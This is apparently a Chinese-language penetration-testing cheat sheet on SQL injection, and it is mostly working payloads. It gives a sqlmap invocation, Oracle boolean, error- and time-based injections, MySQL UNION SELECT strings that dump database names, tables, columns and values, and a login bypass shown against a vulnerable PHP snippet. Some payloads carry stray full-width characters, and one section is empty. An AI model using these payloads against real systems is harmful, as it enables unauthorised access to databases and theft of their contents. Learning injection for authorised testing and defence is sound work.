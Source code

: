 ## SQL注入

测试注重积累POC，通过插件自动化

### 1.sqlmap

对于找到的疑似参数，建议通过sqlmap指定参数进行自动化扫描：  

sqlmap.py -r request.txt -p "param1,param2" --proxy="http://127.0.0.1:8089" --dbs  

### 2.简单字符注入
select语句的注入，有时需要猜准第一个参数的值，例如此处的用户名admin   

	admin' AND 'XXX'='XXX 
	
	
### 3.简单数字注入 
	admin' AND 1=1   
	admin' AND 1=2

### 4.Oracle 布尔类型盲注
CTXSYS.drithsx.sn 和 CTXSYS.CTX_REPORT.TOKEN_TYPE 是 Oracle 中自带的函数，用于处理文本，当传入参数类型错误时，会返回异常:常用的 payload: ' and 1=ctxsys.drithsx.sn(1,(select user from dual))--  


	admin' AND (SELECT(CASE WHEN(7118=7118）THEN NULL ELSE CTXSYS.DRITHSX.SN(1,7118) END) FROM DUAL) IS NULL AND 'XBBR'='XBBR

	admin' AND (SELECT(CASE WHEN(7118=7118）THEN NULL ELSE CTXSYS.DRITHSX.SN(1,7118) END) FROM DUAL) IS NULL
	
### 5.Oracle 基于错误的注入
基于错误的注入，是利用SQL语句执行的错误，识别回显的差异。  
CTXSYS.drithsx.sn(1, (query))  
CTXSYS.CTX_REPORT.TOKEN_TYPE('', (query))  
UTL_INADDR.get_host_name(query)   
UTL_INADDR.get_host_address(query)  
Oracle 中使用 || 连接字符串。

	回显：KkjzK+查询内容+KkjzK 
	admin' AND 1297=CTXSYS.DRITHSX.SN(1297,(CHR(113)||CHR(107)||CHR(106)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (1297=1297) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(107)||CHR(106)||CHR(122)||CHR(113))) AND 'JOqN'='JOqN  
	
获取数据库的数量：  
SELECT COUNT(DISTINCT(OWNER)) FROM SYS.ALL_TABLES

获取每一个数据库的名称：  
' AND 7093=CTXSYS.DRITHSX.SN(7093,CHR(113)||CHR(107)||CHR(118)||CHR(120)||CHR(113)||(select OWNER from (SELECT OWNER,ROWNUM AS LIMIT FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES) order by 1 ASC ) WHERE LIMIT=21)||CHR(113)||CHR(120)||CHR(118)||CHR(122)||CHR(113)) AND 'XlYj'='XlYj

	
### 6.Oracle 基于时间的注入
基于AND/OR的时间注入：  

	admin' AND 9102=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5) AND 'DBEp'='DBEp  
	admin' OR 9102=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5) AND 'DBEp'='DBEp

### 7.MySQL注释  
SQL注入时经常用到注释的技巧，通过注释掉后面的语句，执行签名注入的语句。  
1. MySQL注释符可以通过#号：`select * form table_name# `    
2. MySQL注释符也可以通过--号，需要注意的是后面必须添加一个空格，在语法识别时，才会当做注释符：`select * from table_name--20%`  

### 8.UNION SELECT 登录
在登录场景中，通过查询username获取查询到的字段，在从查询结果中判断密码是否正确，可以利用第一步查询，通过username进行注入，通过union连接，注入特意伪造的语句，使得第二步判断密码时，取到的值和传入的password正好对应，绕过校验。  

原始代码：  

	$username = $_POST['username'];    
	$password = $_POST['password'];  
	if(filter($username)){  
    //过滤括号  
	}else{  
 	   $sql="SELECT * FROM admin WHERE username='".$username."'";  
 	   $result=mysql_query($sql);   
 	   @$row = mysql_fetch_array($result);  
  	   if(isset($row) && $row['username'] === 'admin'){  
 	       if ($row['password']===md5($password)){  
  	          //Login successful   
        	}else{  
            	die("password error!");  
        	}  
    	}else{  
        	die("username does not exist!");  
    	}  
	} 


伪造密码登录：' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b&password=1   

	username=' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b&password=1
 
	mysql> select * from admin where username='' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b';
	+----+----------+----------------------------------+
	| id | username | password                         |
	+----+----------+----------------------------------+
	|  1 | admin    | c4ca4238a0b923820dcc509a6f75849b |
	+----+----------+----------------------------------+


### 9.order by盲注  
注入时经常使用order by来判断数据库的列数，order by 'number' (asc/desc)，默认是升序，通常配合union select使用，union select会拼接一行结果在执行的结果中，通过order by排序，通过响应的差异寻找利用点。  

select * from users where user_id = '1' union select 1,2,'a',4,5,6,7 order by 3  

通过order by判断语句执行结果的列数：' order by 'number' -- QJR  
(如果超出了列的数量，则会执行异常，所以执行成功最大的number则为列数，然后再利用union控制回显)

### 10. UNION SELECT回显
通过union select注入，通过响应判断是否存在注入：  

	param' UNION ALL SELECT CONCAT(CONCAT('qjqxq','eDCHHALiLFplXopXiAiMRGBsyNkjNThCcfJKEObt'),'qqvzq'),NULL,NULL,NULL-- QJrt

1. 获取数据库名称：2019-02-22' UNION ALL SELECT (select database()),NULL,NULL,NULL#   
2. 获取数据库版本：2019-02-22' UNION ALL SELECT ( select version()),NULL,NULL,NULL#      
3. 获取数据库表：  2019-02-22' UNION ALL SELECT (select table_name from information_schema.tables where table_schema='db_name' limit 2,1),NULL,NULL,NULL#  
4. 获取表的字段：2019-02-22' UNION ALL SELECT (select column_name from information_schema.columns where table_name='table_name' limit 2,1),NULL,NULL,NULL#  
5. 获取字段的值：2019-02-22' UNION ALL SELECT (select account_uuid from table_name limit 1,1),NULL,NULL,NULL#
  

### 11. if(0,1,exp)基于错误注入
if进行条件判断，如果为true,则执行，否则执行后面的。通过响应判断语句的差异（1执行，exp出错，报文长度不一致）是否执行，是否存在注入。  

1. 2019-02-19'-IF(CURRENT_USER = 'root@%',1,EXP(771))#
2. 'and  if(0,1, exp(755)) #
3. 'and  if(1,1, exp(755)) #
4. 'and if(ascii(substr(database(),1,1))=1,1,exp(755))  #

### 12. updatexml基于错误的注入
updatexml(XML_document, XPath_string, new_value);该函数是XML文档处理函数，当传入的参数不是Xpath路径时，则会执行报错。利用报错的场景，可以进行错误注入，可能回显错误信息。  

	'||updatexml(1,if(database() = 'database',1,user()),1)||'


### 13. 数据提交格式变种，绕过检测  


link:  
[Oracle手注](https://blog.csdn.net/niexinming/article/details/48985873?utm_source=blogkpcl14)  
[i春秋SQL注入](https://bbs.ichunqiu.com/thread-41701-1-1.html?from=bkyl)


	

  

	
	

